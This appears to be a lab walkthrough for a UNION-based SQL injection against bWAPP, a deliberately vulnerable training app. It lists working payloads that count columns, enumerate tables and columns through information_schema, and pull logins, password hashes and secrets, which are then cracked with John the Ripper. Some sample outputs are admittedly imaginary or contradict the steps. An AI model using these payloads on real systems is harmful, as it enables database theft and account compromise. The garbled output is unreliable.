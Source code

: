  # cheat sheet on SQL injection attack. enjoy!
''

Launch a SQL Injection Attack

SQL Injection or SQLi is an injection attack that allows the attack to execute malicious SQL statements in a text box. Web applications are built with authentication and authorization. However, if not programmed properly, the attacker can use the SQL statements to bypass application security controls and measures. The SQL injection attack can allow the attacker to add, remove, modify, or manipulate the data in the database in whichever he or she likes. If the SQL injection attack is successful, the content of the entire database is at the mercy of the attacker.

In this task, you will learn to launch a SQL injection attack. To do this, perform the following steps:

''

... loading ..


1. The SQL Injection (GET/Search) Webpage is displayed.

> Without entering any data in the Search for a movie textbox, click S   earch.

> The results are displayed. This means that there is a database in the backend that contains the movie list.

2. Let’s test if the application is prone to an SQL Injection attack. In the search box, type the following:

> m’

> Press Search

> Notice the error that confirms that the SQL Injection attack is possible. A notification bar appears. Click No.

3. Next, you need to find the total number of columns that exist in the original SQL statement. Type the following code in the textbox:
Note: The value of 1 is used to test if there is only one column in the database.

> m’ order by 1-- -

> Press Search


> > error you have an error in your SQL syntax, check the manual that 
  corrisponds to your (X)  MYSQL server version for the syntax to use
  '%" at line (x) 1

> Notice the output. This means that there are more than one column in the database, and column 1 does not have the movie list.


4. Next, try another random number. Type the following code in the text box:

> m’ order by 8-- -

> Press Search

> > Error: Unknown column '8'in'order clause'

> Note: The value of 1 is used to test if there is only one column in the database.

This means that there are less than 8 columns.

5. Next, try another random number. Type the following code in the textbox:
Note: The value of 1 is used to test if there is only one column in the database.

> m’ order by 7-- -

> Press Search

> > Error: Unknown column '8' in 'order clause'

''

There is no error in column 7, which confirms that there are a total of 7 columns in the original SQL statement.


''

6. You will now need to select all columns at once using the union all    select statement. To do this, type the following statement:

> m' union all select 1,2,3,4,5,6,7 -- -

> Click Search

> Notice that there is no error. The output is now generated.

===================================================================
 title         realease                 char       genere    IMDB

 john the..     3.2.4               ripper         cracker   not rated


===================================================================

( this is just an imaginary DB reflecting the example in the lab )

7. You need to find the database name now. To do this, type the followi   ng statement:

> m' union all select 1,database(),3,4,5,6,7 -- -

> Click Search.

> notice there is no error. the output is now generated

> > The name of the database appears in the Title column.

8. Next, you need to find the table names in the database, which is bWAPP. To do this, type the following statement:

> m' union all select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=database() -- -

> click search

> > Notice the output lists the table names. The statement that you executed has found five tables in the bWAPP database
=================================================================
   Title	Release     Characters     Genere    IMDB       |
----------------------------------------------------------	|   						                       |
blog		3		34		3	lnk	|
								|
heroes		2		23		3	lnk	|
								|
movies		3		34		3	lnk	|
								|
users		7		5		3	lnk	|								       |
visitors	9		123		8	lnk	|
								|
								|
=================================================================


9. Let’s explore the users table and find its columns. To to this, type the following statement:

> m' union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='users' and table_schema=database() -- -


> click search



> > Notice the output reveals the names of the columns
    there is a total of 9 columns that were found in the users table.

=================================================================
   Title	Release     Characters     Genere    IMDB       |
----------------------------------------------------------	|   						                       |
id		3		5	2		4	|
								|
login		3		5	2		5	|
								|
password	3		5	2		3	|
								|
email		3		4	2		9	|
								|
secret		3		8	2		6	|
								|
activation_code	4		9	2		6	|
								|
activated	4		3	2		6	|
								|
reset_code	2		2	2		2	|
								|
admin		3		3	2		5	|
								|
								|
								|
								|
=================================================================

> > Showing the total number of columns in the table.


10. Let’s now explore the values that are in the following columns:

    login
    Password
    secret

> Type the following statement:

> m' union all select 1,login,password,secret,5,6,7 from users -- -

> Click Search

11. 

> Notice the output. Two records have been found in the users table.

Note: You have now got the hashed value as a password. You can use any password cracking tool, such as John the Ripper, and retrieve the value 

> When you run value through John the Ripper, the password is decrypted  as a bug. Remember, this is the username you had used to log in to t   his Web application






























